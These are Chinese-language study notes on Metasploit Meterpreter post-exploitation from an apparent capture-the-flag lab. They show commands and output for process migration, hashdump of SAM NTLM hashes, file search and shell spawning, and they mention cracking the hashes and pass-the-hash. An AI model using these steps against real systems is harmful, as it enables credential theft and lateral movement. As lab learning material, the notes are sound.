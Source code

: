 ```yaml
---
icon: pen-to-square
date: 2025-04-03
tags: 
title: "Metasploit: Meterpreter"
category:
  - 项目
---
```


```shell-session
msfvenom --list payloads | grep meterpreter
```
该列表将显示适用于以下平台的 Meterpreter 版本;

- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

您决定使用哪个版本的 Meterpreter 主要基于三个因素;

- 目标作系统（目标作系统是 Linux 还是 Windows？它是 Mac 设备吗？是安卓手机吗？等）
- 目标系统上可用的组件（是否安装了 Python？这是 PHP 网站吗？等）
- 您可以与目标系统建立的网络连接类型（它们是否允许原始 TCP 连接？可以只进行 HTTPS 反向连接吗？IPv6 地址的监控不如 IPv4 地址严密吗？等）


## Meterpreter后渗透
`getuid`显示Meterpreter当前用户
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
ps会列出正在运行的进程。PID会提供将METERPRETER迁移到另一个进程所需的PID信息

### 进程迁移
meterpreter存在于内存中，依附于其他进程，因此可以将此进程迁移到其他进程
输入迁移命令后接目标进程的PID可以迁移进程
```shell-session
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**哈希 Dump**

`hashdump`命令将列出SAM数据库的内容。SAM(安全帐户管理器)数据库在Windows系统上存储用户密码。这些密码以 NTLM(新技术 LAN Manager) 格式存储。

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
虽然在数学上无法“破解”这些哈希,NTLM但您仍然可以使用在线NTLM数据库或彩虹表攻击发现清晰文本密码。这些哈希也可以用于Pass-the-Hash攻击,以验证这些用户可以访问同一网络的其他系统。

**搜索**
search命令用于搜索目标用户中的文件如下
```shell-session
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
```

**shell**
shell命令可以启动shell，按下 CTRL+Z 将帮助您返回到 Meterpreter shell。
```shell-session
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

